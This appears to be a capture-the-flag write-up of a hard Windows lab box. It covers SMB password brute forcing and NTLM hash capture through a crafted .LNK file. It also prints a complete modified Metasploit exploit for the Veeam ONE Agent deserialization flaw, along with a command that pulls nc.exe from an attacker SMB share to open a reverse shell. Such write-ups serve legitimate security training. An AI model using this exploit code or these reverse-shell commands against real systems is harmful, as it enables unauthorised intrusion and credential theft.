This box is rated hard difficulty on THM and is the third installment in the Windcorp series. It involves us finding an exposed XML file containing employee names which we use to brute force SMB authentication with. Then, we upload a ZIP file to the SMB share using a lesser known exploit that grants us a user hash. Finally, we find a .NET service listening on localhost that is prone to critical RCE via a deserialization exploit which lets us grab a reverse shell by hosting netcat on our own SMB server to gain Administrator access on the box.

_Once again you find yourself on the internal network of the Windcorp Corporation._

## Scanning & Enumeration
First things first, I run an Nmap scan against the given IP to find all running services for the host. I repeat this for UDP as well but don't find anything.

```
$ sudo nmap -p135,443,445,5985,49667 -sCV 10.67.157.136 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-22 20:22 CST
Nmap scan report for 10.67.157.136
Host is up (0.044s latency).

PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
443/tcp   open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| tls-alpn: 
|_  http/1.1
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
|_ssl-date: 2026-01-23T02:23:41+00:00; -2s from scanner time.
| ssl-cert: Subject: commonName=set.windcorp.thm
| Subject Alternative Name: DNS:set.windcorp.thm, DNS:seth.windcorp.thm
| Not valid before: 2020-06-07T15:00:22
|_Not valid after:  2036-10-07T15:10:21
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49667/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: -1s, deviation: 0s, median: -2s
| smb2-time: 
|   date: 2026-01-23T02:23:03
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.56 seconds
```

There are five ports open:
- MSrpc on ports 135 and 49667
- An HTTPS server on port 443
- SMB on port 445
- HTTPAPI server on port 5985

I also see two domain names leaked from DNS, being set.windcorp.thm and seth.windcorp.thm so I add those to my /etc/hosts file. I'll begin enumerating SMB as it's quick and then head over to the web server.



Guest authentication has been disabled so we'll definitely need credentials to access shares. The machine is most likely running a Windows 10 Server 2019 build or something similar to it.

I fire up gobuster to leave subdirectory/subdomain scans in the background to save on time. This confirms the existence of only two subdomains.



Checking out the landing page shows a static page for their organization that lacks a lot of functionality. There is a section for team members we can use to craft usernames.


I spend a while scanning and enumerating directories to find absolutely nothing. The challenge info stated that the domain controller was secured properly and that this domain was used for developers, having issues in the past.

A bit testing on the webpage showed that their contact section also had a name query bar that would return staff members' name, phone number, and email.



## Brute Forcing
This also leaked their naming convention for usernames which is first name + three letters of their last name (ie. tammyjoh). Checking the network tab in my browser's developer tools showed that each search made a GET request to the users.xml page.



I download it and extract the names from the list.

```
awk -F'[<>]' '/<name>/{print $3}' users.xml > usernames.txt
```



Now that I know some files may be exposed on the server I run another gobuster directory bust and get an interesting hit. This file may be leftover from when they were recovering being hacked and forgot to delete it.



I'll convert the list of names to the site's naming convention to grab valid usernames and then run each one along with a short/common password list on SMB to see about getting any logons.

```
awk '{print $1 substr($2,1,3)}' usernames.txt >  validusers.txt
```



For some reason hydra couldn't get a valid response from SMB on port 445, so I switch to Metasploit's smb_login module, which is pretty slow but works well.

After a few wordlists and a lot of waiting, I find that SecList's top-20-common-SSH-passwords.txt list works to get a login as myrtleowe.



Checking what Shares she has access to leads me to a file named Info.txt which holds our first flag.



At this point I try psexec and evil-winrm for a quick win at getting a shell on the box but don't neither work. The info file from the share noted that all zip files uploaded there will be reviewed, so if we upload one there maybe we can pop one that way.

I tried using a zip concatenation attack (ZIP slip) where we zip a legitimate file along with our shell and upload it, which helps to bypass any security checks. This did not work though.

Here's [a link](https://medium.com/@instatunnel/zip-slip-the-archive-extraction-vulnerability-everywhere-a37092feb240) anyways as it's a cool find.

## Initial Foothold
Some more research rewarded me with another quite interesting exploit. [CVE-2025–24054](https://nvd.nist.gov/vuln/detail/CVE-2025-24054) allows for us to perform an SMB relay attack where we change the .LNK icon to point towards our machine and capture the users NTLM hash. I had a hard time finding versions valid for Linux but ended up using a tool named [mslink](https://www.mamachine.org/mslink/index.en.html).

Then, I zip the .lnk file, upload it the Files share, and set up my SMB listener using sudo Responder -I tun0 .



After a short moment, I capture the NTLM hash for user MichelleWat.



Next up, I send it to JohnTheRipper (or Hashcat if you prefer) to crack the hash using rockyou.txt.



## Privilege Escalation
Turns out she has access to WinRM onto the system, which makes sense as she is the one checking the 'Files' share uploads. Here we can grab the second flag and start looking for routes to administrator privileges.



This account doesn't have any special permissions to abuse so I look around the file system. I discover a test.txt file on the C:\ drive which displays the NT AUTHORITY\SYSTEM account name as well as a script directory. The only script inside was one to open the Files share we just exploited, so this was the automatic process that allowed for that. Well that's a dead end.

I take a look at the services running and find something listening locally on port 2805.



Google shows that the default for TCP 2805 is a service named 'Veeam One Agent' that is used for monitoring and analytics. Swapping directories to 'Program Files' confirms this and I grab the version to look for any potential CVEs.



Research shows that this version was prone to [CVE-2020–10914](https://nvd.nist.gov/vuln/detail/cve-2020-10914)/[CVE-2020-10915](https://nvd.nist.gov/vuln/detail/cve-2020-10915), which allows us to execute arbitrary code on the system without authentication. This is due to how the .NET application handles serialized data and accepts input. The root cause is lack of user-supplied input sanitization, which goes to show we can't blindly trust information supplied by them.

By sending a malicious code to TCP port 2805, we can inject shellcode to get a reverse shell/RCE on the box. Luckily, Metasploit has a module primed for this, so that's what I proceed with. I tried to upload msf to the box and run it locally but Windows Defender snipes that pretty quickly. I'll have to port forward Veeam ONE Agent so that my attacking machine can reach out to it.

I upload plink.exe (already installed on most Kali builds) to the machine using Powershell's Invoke-WebRequest command and use it to port forward Veeam ONE Agent to my machine.

```
echo y | & ./plink.exe -R 2805:127.0.0.1:2805 -l USERNAME -pw PASSWORD ATTACKER_IP
```



_Note: We have to supply echo y into the command to accept the SSH key on our server._

Make sure to set up an SSH server if you haven't already and change your config file to allow for TCP forwarding as well.

```
#Update config file to allow port forwarding
sudo vi /etc/ssh/sshd_config

#Start and enable the SSH server
sudo systemctl start ssh
sudo systemctl enable ssh

#Check if it's running
ss -tlnp | grep :22
```

There was still one pretty big problem, since Windows Defender was on the system our payloads kept being swatted whenever attempting a reverse shell. I think this was because of them being too complex, and I found that dumbing it down to only execute cmd.exe worked fine.

This meant we'd have to update the module in Metasploit itself. You can either change it directly or clone the file and reupload it from there, but since I'm on a VM I go with the former.

First, we need to add another exploit target under the preexisting ones.



Then, we update the register options to add a new option for CMD.



And finally add a new case statement to execute our new option once used.



[Link](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/misc/veeam_one_agent_deserialization.rb) to original Metasploit module.

Here is the entire file to copy/paste since I spent around 2 hours debugging and couldn't get the framework to recognize it.

````
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = NormalRanking

  include Msf::Exploit::Remote::Tcp
  include Msf::Exploit::CmdStager
  include Msf::Exploit::Powershell

  def initialize(info = {})
    super(
      update_info(
        info,
        'Name' => 'Veeam ONE Agent .NET Deserialization Added Payload',
        'Description' => %q{
          This module exploits a .NET deserialization vulnerability in the
          Veeam ONE Agent before hotfix versions 9.5.5.4587 and 10.0.1.750
          in the 9 and 10 release lines.

          Specifically, the module targets the HandshakeResult() method
          used by the Agent. By inducing a failure in the handshake, the
          Agent will deserialize untrusted data.

          Tested against the pre-patched release of 10.0.0.750. Note that
          Veeam continues to distribute this version but with the patch
          pre-applied.
        },
        'Author' => [
          'Michael Zanetta',     # Discovery
          'Edgar Boda-Majer',    # Discovery
          'wvu',                # Module
          '4ndr34z'             # Added module target
        ],
        'References' => [
          ['CVE', '2020-10914'],
          ['CVE', '2020-10915'], # This module
          ['ZDI', '20-545'],
          ['ZDI', '20-546'],     # This module
          ['URL', 'https://www.veeam.com/kb3144']
        ],
        'DisclosureDate' => '2020-04-15',
        'License' => MSF_LICENSE,
        'Platform' => 'win',
        'Arch' => [ARCH_CMD, ARCH_X86, ARCH_X64],
        'Privileged' => false,
        'Targets' => [
          [
            'Windows Command',
            {
              'Arch' => ARCH_CMD,
              'Type' => :win_cmd,
              'DefaultOptions' => {
                'PAYLOAD' => 'cmd/windows/powershell_reverse_tcp'
              }
            }
          ],
          [
            'Windows Dropper',
            {
              'Arch' => [ARCH_X86, ARCH_X64],
              'Type' => :win_dropper,
              'DefaultOptions' => {
                'PAYLOAD' => 'windows/x64/meterpreter_reverse_tcp'
              }
            }
          ],
          [
            'PowerShell Stager',
            {
              'Arch' => [ARCH_X86, ARCH_X64],
              'Type' => :psh_stager,
              'DefaultOptions' => {
                'PAYLOAD' => 'windows/x64/meterpreter/reverse_tcp'
              }
            }
          ],
          [
            'CMD',
            {
              'Arch' => ARCH_CMD,
              'Type' => :win_cmd2,
              'DefaultOptions' => {
                'PAYLOAD' => 'windows/x64/exec'
              }
            }
          ]
        ],
        'DefaultTarget' => 2,
        'DefaultOptions' => {
          'WfsDelay' => 10
        },
        'Notes' => {
          'Stability' => [SERVICE_RESOURCE_LOSS],
          'Reliability' => [REPEATABLE_SESSION],
          'SideEffects' => [IOC_IN_LOGS, ARTIFACTS_ON_DISK]
        }
      )
    )

    register_options(
      [
        Opt::RPORT(2805),
        OptString.new(
          'CMD',
          [true, 'Command to execute', 'replace with shell :)']
        ),
        OptString.new(
          'HOSTINFO_NAME',
          [
            true,
            'Name to send in host info (must be recognized by server!)',
            'AgentController'
          ]
        )
      ]
    )
  end

  def check
    vprint_status("Checking connection to #{peer}")
    connect
    CheckCode::Detected("Connected to #{peer}.")
  rescue Rex::ConnectionError => e
    CheckCode::Unknown("#{e.class}: #{e.message}")
  ensure
    disconnect
  end

  def exploit
    print_status("Connecting to #{peer}")
    connect

    print_status("Sending host info to #{peer}")
    sock.put(host_info(datastore['HOSTINFO_NAME']))

    res = sock.get_once
    vprint_good("<-- Host info reply: #{res.inspect}") if res

    print_status("Executing #{target.name} using #{datastore['PAYLOAD']}")

    case target['Type']
    when :win_cmd2
      execute_command(datastore['CMD'])

    when :win_cmd
      execute_command(payload.encoded)

    when :win_dropper
      execute_cmdstager(
        flavor: :psh_invokewebrequest,
        linemax: 9001
      )

    when :psh_stager
      execute_command(
        cmd_psh_payload(
          payload.encoded,
          payload.arch.first,
          remove_comspec: true
        )
      )
    end
  rescue EOFError, Rex::ConnectionError => e
    fail_with(Failure::Unknown, "#{e.class}: #{e.message}")
  ensure
    disconnect
  end

  def execute_command(cmd, _opts = {})
    vprint_status("Serializing command: #{cmd}")

    serialized_payload =
      Msf::Util::DotNetDeserialization.generate(
        cmd,
        gadget_chain: :TextFormattingRunProperties,
        formatter: :BinaryFormatter
      )

    print_status("Sending malicious handshake to #{peer}")
    sock.put(handshake(serialized_payload))

    res = sock.get_once
    vprint_good("<-- Handshake reply: #{res.inspect}") if res
  rescue EOFError, Rex::ConnectionError => e
    fail_with(Failure::Unknown, "#{e.class}: #{e.message}")
  end

  def host_info(name)
    meta = [0x0205].pack('v')
    packed_name = [name.length].pack('C') + name
    pkt = meta + packed_name

    vprint_good("--> Host info packet: #{pkt.inspect}")
    pkt
  end

  def handshake(serialized_payload)
    status = [-1].pack('l<')
    length = status.length + serialized_payload.length
    type = 7
    attrs = 1
    kontext = 0

    header = [length, type, attrs, kontext].pack('VvVV')
    padding = "\x00" * 18
    result = status + serialized_payload

    pkt = header + padding + result
    vprint_good("--> Handshake packet: #{pkt.inspect}")
    pkt
  end
end
````

Now restart your msfconsole and set all necessary options, making sure that the exploit target id is 3, so that we're using the custom exploit. Notice we can't set a local port or host because it's just executing cmd.exe. This means we'll have to host something on our attacking machine in order for the serialized payload to execute.

_Note: Set RHOSTS to 127.0.0.1 since we port forwarded the service earlier._

Let's go through an exploit checklist real quick:
- Port forwarded Veeam ONE Agent to our attacking machine using Plink so that we can interact locally
- Updated Metasploit module with custom Windows CMD exploit
- Set RHOSTS = 127.0.0.1 (because it's now listening on our machine)
- Set SRVHOST = tun0 IP or Attack Box IP , TARGET = 3 (to use our custom exploit)
- Set DisablePayloadHandler = True (I had issues getting the exploit to run without this)
- Set CMD = 'cmd.exe /c net use a: \\ATTACKING_IP\share /user:test test ^& a:\nc.exe ATTACKING_IP PORT -e cmd.exe' 
- Host an SMB server hosting nc.exe (for Windows acct to use)
- Setup a NetCat listener to catch the reverse shell as Administrator

This command uses cmd.exe to authenticate to our SMB server as user: test and password: test and grabs nc.exe while mapping it to the a:\ drive. Then it uses that netcat binary to connect back out to our machine executing cmd.exe to give us a shell.

```
set CMD 'cmd.exe /c net use a: \\ATTACKING_IP\share /user:test test ^& a:\nc.exe ATTACKING_IP PORT -e cmd.exe'
```



We finally get a shell as a user named set with full administrator privileges on the system.



We can grab the last flag under C:\Users\Administrator\Desktop to complete the box. This challenge was pretty awesome as it went from 0–100 real quick. I learned a ton while researching vulnerabilities pertaining to CVEs and SMB relay attacks.

